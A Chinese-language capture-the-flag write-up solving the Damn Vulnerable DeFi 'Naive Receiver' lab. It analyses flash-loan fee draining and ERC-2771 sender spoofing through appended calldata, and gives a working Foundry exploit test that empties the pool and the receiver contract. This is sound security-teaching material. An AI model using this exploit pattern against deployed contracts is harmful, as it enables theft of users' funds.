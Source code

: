 ## 题目 [Naive Receiver](https://github.com/theredguild/damn-vulnerable-defi/tree/v4.0.0/src/naive-receiver)
有一个池子里有 1000 WETH 余额，提供闪电贷。该池子收取固定费用为 1 WETH。这个池子通过与一个无权限的转发合约集成，支持元交易。  

一个用户部署了一个样本合约，余额为 10 WETH。看起来这个合约可以执行 WETH 的闪电贷。  

所有资金都有风险！需要将用户和池子里的所有 WETH 拯救出来，并存入指定的恢复账户。  

**解释：** 题目要求需要清空资金池和接收者合约中的所有 WETH 到恢复账户。并且从测试文件可以看出，需要两次或更少的交易中完成挑战。

## 前置知识
### [ERC-2771](https://eips.ethereum.org/EIPS/eip-2771)
ERC-2771 是元交易的标准。用户可以将交易的执行委托给第三方 Forwarder，通常称为中继器或转发器。  
通常合约中直接调用者的地址是使用 msg.sender 获取的，但在使用了 ERC-2771 的情况下，如果 msg.sender 是转发器角色的话，那么会截断传入的 calldata 并获取最后 20 个字节来作为交易的直接调用者地址。  

### Multicall
Multicall 是一个智能合约库，其作用是允许批量执行多个函数调用，从而减少交易成本。这个库通常用于优化 DApp 的性能和用户体验，特别是当需要进行多个读取操作时。  


## 合约分析
主要的三个合约是：  
`NaiveReceiverPool`: 提供闪电贷的池子，有 1000 个 WETH 可提供，同时支持 Forwarder 和 Multi call，还具有存款和取款功能。  
`FlashLoanReceiver`: 闪电贷接收者，初始余额 10 个 WETH。  
`BasicForwarder`: 中继器合约，用来执行交易。  

**任务1：清空`FlashLoanReceiver`合约的资产。**  
在 `FlashLoanReceiver` 合约的 `onFlashLoan` 函数中，并没有对发起闪电贷的地址做检查，所以任何地址都可以发起以该合约为名义的闪电贷，那么通过将接收者合约作为目标发起闪电贷，由于手续费为 1 WETH，那么调用 10 次，即可以耗尽。并且可以使用 Multi call 在一笔交易中完成。
``` solidity
    function onFlashLoan(address, address token, uint256 amount, uint256 fee, bytes calldata)
        external
        returns (bytes32)
    {
        assembly {
            // gas savings
            if iszero(eq(sload(pool.slot), caller())) {
                mstore(0x00, 0x48f5c3ed)
                revert(0x1c, 0x04)
            }
        }

        if (token != address(NaiveReceiverPool(pool).weth())) revert NaiveReceiverPool.UnsupportedCurrency();

        uint256 amountToBeRepaid;
        unchecked {
            amountToBeRepaid = amount + fee;
        }

        _executeActionDuringFlashLoan();

        // Return funds to pool
        WETH(payable(token)).approve(pool, amountToBeRepaid);

        return keccak256("ERC3156FlashBorrower.onFlashLoan");
    }
```

**任务2：清空 `NaiveReceiverPool` 合约资产。**  
在`NaiveReceiverPool`合约中取资产的方式有 `withdraw`，并且存款和取款使用了一个自定义的 `_msgSender()` 函数，在这个函数中是取中继器发来的 `msg.data` 的最后 20 个字节作为 `msgSender` 。那么可以在 `msg.data` 最后增加一个地址，并且这个地址需要在 `deposits` 变量中有资产，不然扣除不了 `amount` 。
``` solidity
    function withdraw(uint256 amount, address payable receiver) external {
        // Reduce deposits
        deposits[_msgSender()] -= amount;
        totalDeposits -= amount;

        // Transfer ETH to designated receiver
        weth.transfer(receiver, amount);
    }

    function deposit() external payable {
        _deposit(msg.value);
    }

    function _deposit(uint256 amount) private {
        weth.deposit{value: amount}();

        deposits[_msgSender()] += amount;
        totalDeposits += amount;
    }

    function _msgSender() internal view override returns (address) {
        if (msg.sender == trustedForwarder && msg.data.length >= 20) {
            return address(bytes20(msg.data[msg.data.length - 20:]));
        } else {
            return super._msgSender();
        }
    }
```
之后仔细看 `flashLoan` 函数，发现手续费接收地址 `feeReceiver` 是会增加 `deposits` 的。并且根据测试文件和构造函数，可以看出 `deployer` 和 `feeReceiver` 是同一个地址。  
``` solidity
    function flashLoan(IERC3156FlashBorrower receiver, address token, uint256 amount, bytes calldata data)
        external
        returns (bool)
    {
        if (token != address(weth)) revert UnsupportedCurrency();

        // Transfer WETH and handle control to receiver
        weth.transfer(address(receiver), amount);
        totalDeposits -= amount;

        if (receiver.onFlashLoan(msg.sender, address(weth), amount, FIXED_FEE, data) != CALLBACK_SUCCESS) {
            revert CallbackFailed();
        }

        uint256 amountWithFee = amount + FIXED_FEE;
        weth.transferFrom(address(receiver), address(this), amountWithFee);
        totalDeposits += amountWithFee;

        deposits[feeReceiver] += FIXED_FEE;

        return true;
    }
```

## 题解
基于上述分析，我们可以得出攻击方法：  
1. 调用中继器 `forwarder` 合约执行后面的交易。
2. 中继器调用 `multicall` 函数，并且在 `call data` 中填入调用 10 次闪电贷，和调用一次 `withdraw`。
3. 并且在 `call data` 最后拼上 `feeReceiver` 地址。

调用 `forwarder` 之前还需要拼好签名。测试代码如下：  
``` solidity
    function test_naiveReceiver() public checkSolvedByPlayer {
        bytes[] memory callDatas = new bytes[](11);
        for(uint i = 0; i < 10; i++){
            callDatas[i] = abi.encodeCall(NaiveReceiverPool.flashLoan, (receiver, address(weth), 0, "0x"));
        }
        callDatas[10] = abi.encodePacked(abi.encodeCall(NaiveReceiverPool.withdraw, (WETH_IN_POOL + WETH_IN_RECEIVER, payable(recovery))),
            bytes32(uint256(uint160(pool.feeReceiver())))
        );
        bytes memory callData;
        callData = abi.encodeCall(pool.multicall, callDatas);
        BasicForwarder.Request memory request = BasicForwarder.Request(
            player,
            address(pool),
            0,
            30000000,
            forwarder.nonces(player),
            callData,
            block.timestamp
        );
        bytes32 requestHash = keccak256(
            abi.encodePacked(
                "\x19\x01",
                forwarder.domainSeparator(),
                forwarder.getDataHash(request)
            )
        );
        (uint8 v, bytes32 r, bytes32 s)= vm.sign(playerPk ,requestHash);
        bytes memory signature = abi.encodePacked(r, s, v);
        require(forwarder.execute(request, signature));
    }
```
**运行测试：**  
```
forge test --mp test/naive-receiver/NaiveReceiver.t.sol -vv
```

**测试通过：**  
```
Ran 2 tests for test/naive-receiver/NaiveReceiver.t.sol:NaiveReceiverChallenge
[PASS] test_assertInitialState() (gas: 34878)
[PASS] test_naiveReceiver() (gas: 416956)
Suite result: ok. 2 passed; 0 failed; 0 skipped; finished in 15.46ms (7.34ms CPU time)
```

